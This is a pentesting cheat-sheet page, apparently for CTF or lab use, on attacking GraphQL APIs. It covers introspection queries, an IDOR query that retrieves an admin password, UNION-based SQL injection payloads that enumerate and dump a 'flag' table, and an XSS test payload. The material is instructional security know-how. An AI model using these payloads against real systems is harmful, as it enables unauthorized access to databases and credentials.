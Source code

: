 ```yaml
---
layout: default
title: GraphQL
permalink: /Web/graphql/
---
```


# Basics

A GraphQL service typically runs on a single endpoint, most commonly at `/graphql`, `/api/graphql`, or something similar.

For details: [https://graphql.org/learn/](https://graphql.org/learn/)

# graphw00f
Frist clone the [repository](https://github.com/dolevf/graphw00f), then run the `main.py` script.
```
python3 main.py -d -f -t http://$ip
```
- `-f`: fingerprint mode
- `-d`: detect mode

Accessing the GraphQl endpoint in a browser can reveal additional information.

## Introspection
Introspection is a GraphQL feature to query about the structure of the backend system.
All GraphQL types supported by the backend:
```
{
  __schema {
    types {
      name
    }
  }
}
```
After we know a type, we can obtain the name of all of the type's fields with the following introspection query:
```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```
We can also obtain all the queries supported by the backend:
```
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```
Query that dumps all information about types, fields, and queries supported by the backend:
```
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

We can visualize the schema using tools such as [GraphQL-Voyager](https://github.com/APIs-guru/graphql-voyager).

# Insecure Direct Object Reference (IDOR)

A good start is to enumerate requests with Burp.

A query like that in a POST request could reveal a password:
```
{"query":"{user(username: \"admin\") { username password }}"}
```

# Injection Attacks

## SQL Injection
We should investigate all GraphQL queries, check whether they support arguments, and analyze these arguments for potential SQL injections.
We can send the query without any arguments and if the backend expects an argument, the response contains an error that tells us the name of the required argument.
When a GraphQL query returns a structured object (like UserObject), UNION-based SQL injection can be used by aligning your payload with the structure of the object.
Example:
- Target GraphQL Field: user
- Returned Object Type: UserObject (6 fields: uuid, id, username, password, role, msg - results of the introspection query)
- Injection Vector: username parameter

1. Discover Table Names
```
{
  user(username: "' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```
- Match number of columns in UNION SELECT to fields in the return object.
- Use GROUP_CONCAT() to aggregate results when only one row is returned.
- Payload is injected inside a string argument to a GraphQL object query.
- Terminate original query with ' and comment remainder with -- -.

2. Discover Column Names in flag Table
```
{
  user(username: "' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='flag'-- -") {
    username
  }
}
```
3. Extract Flag from flag Table
```
{
  user(username: "' UNION SELECT 1,2,flag,4,5,6 FROM flag-- -") {
    username
  }
}
```

## Cross-Site Scripting (XSS)
XSS vulnerabilities can occur if GraphQL responses are inserted into the HTML page without proper sanitization.
Potential testing payload:
```
<script>alert(1)</script>
```
